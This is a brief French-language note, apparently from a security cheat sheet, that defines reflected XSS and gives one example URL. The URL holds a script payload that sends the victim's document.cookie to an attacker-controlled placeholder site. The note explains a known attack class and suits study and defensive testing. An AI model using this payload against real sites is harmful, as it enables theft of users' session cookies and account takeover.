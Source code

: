 # XSS reflected / XSS réflechie ou volatile

Correspond à un payload envoyé à un victime qui en la déclenchant envoie une requête à un serveur légitime avec le payload.

```shell
http://<vul_website>/search?query=<script>document.location='<monsite>'+document.cookie</script>
```
